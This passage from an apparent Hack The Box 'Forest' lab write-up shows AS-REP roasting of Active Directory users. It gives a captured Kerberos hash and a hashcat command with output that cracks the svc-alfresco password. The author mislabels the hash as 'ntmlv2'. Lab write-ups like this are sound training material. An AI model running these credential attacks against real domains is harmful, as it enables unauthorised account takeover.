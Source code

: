 ```
[-] User HealthMailboxfd87238 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxb01ac64 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox7108a4e doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox0659cc1 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User a doesn't have UF_DONT_REQUIRE_PREAUTH set
                                                                                                                                                                                                                                        
┌──(blackninja㉿arena)-[~/CTF/HTB/Forest]
└─$ cat hashes.asreproast  
$krb5asrep$23$svc-alfresco@HTB.LOCAL:80284117946be00139cb15bc99bb0fe2$0241c6852056f178cc01f8a1a1c8cd4a417f0fbd5bae6988829cd0ec79e340a4a738eb087fc6cb50deff3c91523f3ed8b72569cc29087ca7b470801a6b7367d4e8c0c53a3660feedc820442bb4f4c57fc6878f1d9753330671701ada61641cc395d0c77a4bc170c76e67ea7ab8751a08ca4e7a9c426dedfe272408afd603ada33c10146eef0ff930eb45182fa1b4345dc580d85b0f1eaee299c6010d3a877741573dd0dbf1f0f6cb4f3cc4d10ed2abc7612dae498af0c2a2a547db0f8549f0477a7592b2e61d81f52dec532b906239dd3ad43cd88bf750d2b2130b6b3d7f35ca6826b74016bd
```
- Since i have ntmlv2 hash for user called svc-alfresco and then i will crack it offline in my computer

```
hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt
```
-Output

```
Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 3 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$krb5asrep$23$svc-alfresco@HTB.LOCAL:4103d27df75a0c65094ac1a648a1b81f$61b4bf2ada9184ef1524efbf2898e78ab3c0d3ce6e7eed223096c0a0c4b2fe091785e14dba7a85c5967e782e9a440d39fa6cddac43d6fc2d0c039daea7ddd225bf0321edb4379f4b539e1384eeb32ee89c0183e084c5e925728323d36a7f9be488d197f2a869ae2be95a2b21c5e65656e50ab0db7d55a551b43a9a4cde5d2140c331309cb766dfd525ef98bb5236790d380555a8a5784cc507856ab19562af71d21ccea40d611cd11edee65e94b571cf4450c8ee4a5683523c765f0b00ab5cff4ea202d70f4b1a45ffefadc3cca3ee7fabdaa16b9dce48c97c2bf4ae8111714e12a381bb5ed1:s3rvice
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$svc-alfresco@HTB.LOCAL:4103d27df75a0c...bb5ed1
Time.Started.....: Tue Apr 25 15:07:20 2023 (1 sec)
Time.Estimated...: Tue Apr 25 15:07:21 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  4300.9 kH/s (1.55ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
```
